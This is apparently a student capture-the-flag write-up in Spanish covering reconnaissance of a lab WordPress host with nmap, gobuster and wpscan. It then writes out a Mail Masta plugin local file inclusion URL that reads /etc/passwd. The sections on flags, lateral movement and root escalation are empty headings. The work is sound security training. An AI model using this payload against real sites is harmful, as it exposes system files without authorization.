 # Grupo 4: Fallas en el Software y en la Integridad de los Datos

## **Índice**

<span style="color:black;">1. [ Enumeración](#Enumeración)</span><br>
<span style="color:black;">2. [ Buscar vulnerabilidades](#Vulnerabilidades)</span><br>
<span style="color:black;">3. [ Flag user.txt](#Flag1)</span><br>
<span style="color:black;">4. [ Movimiento lateral](#Movimiento)</span><br>
<span style="color:black;">5. [ Escalada de privilegios a Root](#Escalada)</span><br>
<span style="color:black;">6. [ Flag de Root](#flag-root)</span><br>
---

<br>

<h1 name="Enumeración">1. Enumeración</h1>

<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/nmap.png" alt="nmap">

> nmap -p- -sVC 172.17.0.2 

<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/gobuster.png" alt="gobuster">

> gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

<br>
<h1 name="Vulnerabilidades">2. Buscar vulnerabilidades</h1>

<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/web.png" alt="Wordpress">

<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/wpscan.png" alt="wpscan">

<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/wpscan2.png" alt="wpscan2">


<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/mail-masta.png" alt="mail-masta">

[WordPress Plugin Mail Masta 1.0 - Local File Inclusion](https://www.exploit-db.com/exploits/40290)

<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/plugin-exploitdb.png" alt="plugin-exploitdb">

Como podemos ver, nos facilitan un link directo para poder visualizar el contenido del archivo /etc/passwd del servidor donde se está ejecutando el wordpress:

**http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd**

Lo cambiamos por **http://172.17.0.2/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd**


<img src="https://github.com/Dani-ITB24/Proyecto-Final/blob/Grupo5(Eloi-Alan-Fernando-Jose-Zomeño)/Documentos/Grupo%204/img_A08/plugin-exploit.png" alt="plugin-exploit">

<br>
<h1 name="Flag1">3. Flag user.txt</h1>



<br>
<h1 name="Movimiento">4. Movimiento lateral</h1>


<br>
<h1 name="Escalada">5. Escalada de privilegios a Root</h1>


<br>
<h1 name="flag-root">6. Flag de Root</h1>

